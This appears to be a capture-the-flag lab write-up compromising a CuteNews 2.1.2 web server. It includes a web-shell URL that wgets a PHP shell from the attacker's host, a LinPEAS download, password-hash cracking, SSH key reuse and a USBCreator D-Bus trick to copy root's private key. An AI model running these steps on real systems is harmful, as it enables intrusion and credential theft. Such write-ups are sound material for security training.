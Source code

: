 # Passage

## Enumeration

### Scan Report

```text
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port - 80 

**Dirbuster Report**

![](../../../.gitbook/assets/image%20%2893%29.png)

Cute News seems interesting.

![](../../../.gitbook/assets/image%20%2872%29.png)

**CuteNews Version: 2.1.2**

\*\*\*\*

## **Exploitation**

searchsploit cutenews

```text
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                    | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload        | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                      | php/webapps/48800.py
```

Lets run 4th Exploit

It created a user and now you can access the file in browser. 

**Uploading shell** 

```text
http://10.10.10.206/CuteNews/uploads/avatar_9vNU22mK3t_9vNU22mK3t.php?cmd=wget%20http://10.10.14.12:8000/shell2.php
```



## **Post Exploitation**

### **Full TTY**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **Current User**

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### **LinPeas**

```bash
cd /tmp
wget htt[://10.10.14.12:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Nothing much interesting...

Search for password or csome configurations in www/html folder

```bash
find /var/www/html/CuteNews | grep -i password
find /var/www/html/CuteNews | grep -i database
find /var/www/html/CuteNews | grep -i sql
.
.
.
```

Users folder has some interesting dta which is base64 encoded

```bash
for i in $(find . -name "*.php" ); do tail -1 $i | base64 -d; echo; done;
```

Paul is a user of machine. Crack his obtained SHA2-256

```bash
hashcat -m 1400 -a 0 hash ~/PenetrationTesting/tools/rockyou.txt
```

Switch to paul from www-data

```bash
su paul
```

### User Flag

```bash
cat /home/paul/user.txt
```



### Check SSH Keys

```bash
cat /home/paul/.ssh/authorized_keys
```

![](../../../.gitbook/assets/image%20%2840%29.png)

This key is for Nadav. Generating public key to access using Nadav's account.



Download this key and login via ssh.

find usb creator reference in viminfo...



Check exploits: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /home/nadav/id_rsa true
()
```

```bash
ssh-keygen -y -f id_rsa
```

This gives us the key for SSH of root. we use it and get the flag.


